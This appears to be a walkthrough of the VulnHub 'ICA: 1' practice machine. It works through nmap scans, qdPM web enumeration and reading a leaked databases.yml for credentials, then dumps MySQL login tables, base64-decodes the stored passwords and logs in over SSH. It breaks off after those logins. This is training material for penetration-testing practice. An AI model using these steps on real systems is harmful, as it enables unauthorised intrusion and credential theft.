::::::::::::::::::::::::: page
# ICA: 1 {#ica-1 .title}

\

## 

## ICA: 1

- **[ICA: 1]{style="color:#237522;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/ica-1,748/>



- Now unzip the file .
- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#9141ac;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.239
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.239
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.239
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.239
:::



1.  [Web Enumeration]{style="color:#9141ac;"} :

- IP visit in browser : <http://192.168.2.239/>
  <http://192.168.2.239/backups/> <http://192.168.2.239/batch/>
  <http://192.168.2.239/core/>
  <http://192.168.2.239/core/data/fixtures/fixtures.yml>



- In port 80 confirm that the version :
  <http://192.168.2.239/index.php/login>



- Check the exploit version :

::: codebox
    searchsploit qdPM
:::



- Read the exploit :

::: codebox
    cat /usr/share/exploitdb/exploits/php/webapps/50176.txt
:::



- Visit the endpoints : <http://192.168.2.239/core/config/databases.yml>



- Found username and password :

::: codebox
    Username : qdpmadmin
    Password : UcVQCMQk2STVeS6J
:::

1.  [MySQL Enumeration]{style="color:#9141ac;"} :

- Connect to mysql :

::: codebox
    mysql --skip-ssl -h 192.168.2.239 -u qdpmadmin -pUcVQCMQk2STVeS6J
:::



- Database show :

::: codebox
    SHOW DATABASES;
:::

- Use database :

::: codebox
    USE staff;
:::

- Show the tables in database :

::: codebox
    SHOW TABLES;
:::



- Data show from all tables :

::: codebox
    SELECT * FROM login;
:::

- 

::: codebox
    SELECT * FROM user;
:::

- 

::: codebox
    SELECT * FROM department;
:::



- Decode all passwords from login table :

::: codebox
    echo 'c3VSSkFkR3dMcDhkeTNyRg==' | base64 -d
:::

- 

::: codebox
    echo 'N1p3VjRxdGc0MmNtVVhHWA==' | base64 -d
:::

- 

::: codebox
    echo 'WDdNUWtQM1cyOWZld0hkQw==' | base64 -d
:::

- 

::: codebox
    echo 'REpjZVZ5OThXMjhZN3dMZw==' | base64 -d
:::

- 

::: codebox
    echo 'Y3FObkJXQ0J5UzJEdUpTeQ==' | base64 -d
:::



1.  [SSH Access]{style="color:#9141ac;"} :

- Login ssh with dexter user :

::: codebox
    ssh dexter@192.168.2.239
:::



- Login ssh with travis user :

::: codebox
    ssh travis@192.168.2.239
:::


:::::::::::::::::::::::::
